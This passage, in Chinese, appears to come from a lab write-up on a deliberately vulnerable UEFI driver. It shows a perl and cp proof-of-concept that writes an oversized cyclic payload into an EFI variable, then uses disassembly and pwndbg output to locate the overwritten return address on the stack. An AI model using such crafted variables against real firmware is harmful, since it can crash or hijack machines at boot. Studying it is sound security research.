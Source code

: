 先用一段长的payload填充UEFI variable，payload可以用pwntools的cyclic生成一段：

  * 

    
    
    perl -e 'print("\x07\x00\x00\x00". "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa")' >> poc

拷贝到/sys/firmware/efi/efivars/VulnVar-a0fa115f-c880-4c7c-95ee-91303debf4d1：

  * 

    
    
    cp ./poc /sys/firmware/efi/efivars/VulnVar-a0fa115f-c880-4c7c-95ee-91303debf4d1

重启会发现漏洞触发并崩溃在BIOS的VulnDriver.efi里。以下内容探讨这个类型漏洞的危害。

如下是gRT->GetVariable的汇编代码，可以看到GetVariable的前四个参数VariableName、VendorGuid、Attributes、DataSize都是根据x64调用约定用寄存器保存的，而用来保存NVRAM中VariableName值的Data[8]是放到栈里的，所以如果最终Data内存发生溢出的话，VulnDriver.efi(调用gRT->GetVariable的代码，而不是edk2中)的栈会发生溢出，这里也不是堆溢出。

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    .text:0000000000000F8E                 mov     rax, cs:gRT.text:0000000000000F95                 mov     r9, rbx         ; DataSize.text:0000000000000F98                 mov     [rsp+78h+Data], rsi ; Data   [8].text:0000000000000F9D                 xor     r8d, r8d        ; Attributes.text:0000000000000FA0                 lea     rdx, VendorGuid ; VendorGuid.text:0000000000000FA7                 lea     rcx, VariableName ; VariableName.text:0000000000000FAE                 call    [rax+EFI_RUNTIME_SERVICES.GetVariable] ; gRT->GetVariable().text:0000000000000FAE                                         ; EFI_STATUS(EFIAPI * EFI_GET_VARIABLE) (IN CHAR16 *VariableName, IN EFI_GUID *VendorGuid, OUT UINT32 *Attributes, OPTIONAL IN OUT UINTN *DataSize, OUT VOID *Data).text:0000000000000FAE                                         ; VariableName   A Null-terminated string that is the name of the vendor's variable..text:0000000000000FAE                                         ; VendorGuid     A unique identifier for the vendor..text:0000000000000FAE                                         ; Attributes     If not NULL, a pointer to the memory location to return the attributes bitmask for the variable..text:0000000000000FAE                                         ; DataSize       On input, the size in bytes of the return Data buffer. On output the size of data returned in Data..text:0000000000000FAE                                         ; Data           The buffer to return the contents of the variable.

由于[8]中rsi保存Data内容，在VulnDriver.efi第二次调用GetVariable后查看rsi的内容[9]：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    pwndbg> x/20xg $rsi0x3ff00cc0:  0x6161616261616161  0x61616164616161630x3ff00cd0:  0x6161616661616165  0x61616168616161670x3ff00ce0:  0x6161616a61616169  0x6161616c6161616b0x3ff00cf0:  0x6161616e6161616d  0x616161706161616f0x3ff00d00:  0x6161617261616171  0x61616174616161730x3ff00d10:  0x6161617661616175  0x61616178616161770x3ff00d20:  0x0000000061616179  0x000000003fa0d7300x3ff00d30:  0x0000000000000000  0x000000003fa0d7180x3ff00d40:  0x000000003ff1a80c  0x000000003ff1fec00x3ff00d50:  0x000000003fa0d701  0x000000003fa0d701pwndbg> p $rbp$1 = (void *) 0x3ff1f020pwndbg> p $rsp$2 = (void *) 0x3ff00c80

此时$rsi为设置的payload的内容，$rsi在$rsp、$rbp之间，为栈内存，印证了我们之前的推理。

这里根据第二次执行完GetVariable的指令[10]，"add rsp,0x68;pop x;pop
x;ret"；或者根据qemu崩溃时的eip，可以算出来栈溢出的ret
addr保存在0x3ff00c80+0x68+0x8+0x8=0x3ff00cf8，为0x616161706161616f。
